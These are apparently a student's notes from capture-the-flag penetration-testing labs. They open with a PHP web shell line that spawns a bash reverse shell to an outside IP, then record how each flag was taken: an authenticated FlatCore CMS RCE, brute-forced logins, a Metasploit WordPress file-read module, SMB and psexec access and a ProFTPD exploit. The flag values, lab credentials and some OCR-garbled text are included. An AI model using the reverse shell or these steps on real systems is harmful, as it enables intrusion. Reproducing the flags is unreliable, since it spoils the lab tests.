 
	<?php system("bash -c 'bash -i >& /dev/tcp/192.65.7.2P/7777 0>&1'"); ?>

Found after exploiting FlatCore CMS 2.0.7 - Remote Code Execution (RCE) (Authenticated) and gaining a reverse shell.....
FLAG1{00b63ff7342446f4a406aa7eba8c4195}


Found after bruteforcing the user== iamaweakuser:angel 
FLAG2{24d0345e43d640b49f2d48455cea8cfa}


Found after exploiting this module: `auxiliary/scanner/http/wp_duplicator_file_read` and we read the home directory of this account.
FLAG3{64b640c198ae4b4297ead0e5282fa9e7}


read /cat/passwd file and found a user and bruteforced his password===>  iamacrazyfreeuser:123456789
Figured that brute force was not necessary beacause the same user can be logged in without password the flag is there:
FLAG4{f36d2acd8710491f870025c0be2db297}


---

# **#### Host & Network Penetration Testing: Exploitation CTF 2**


Found after bruteforcing tom smb creds: "felipe" and in the HRDocuments share we found this:
733dae965b5740d7a6a7424a256da35d


In the HRDocuments share we found leaked-hashes.txt also so we connect via psexec.py and get the second flag:


We brute forced these hashes via smb_login MSF module and got the flag there and a hint:
19cdf10f2d77425fabb7e00d5f3c7148

Who knows, these creds might come handy! ---> david:omnitrix_9901

d007a8d4cc984ebabdfe92cda44251d8


---


# **#### Host & Network Penetration Testing: Exploitation CTF 3**


After exploiting ProFTP 1.3.5 and changing the `set SITEPATH /var/www/html` the exploit worked....
meterpreter > cat flag1.txt 
FLAG1{dfc91c35e59140ad8deeca1c2a51a16b}
Remember, the magical word is 'letmein'


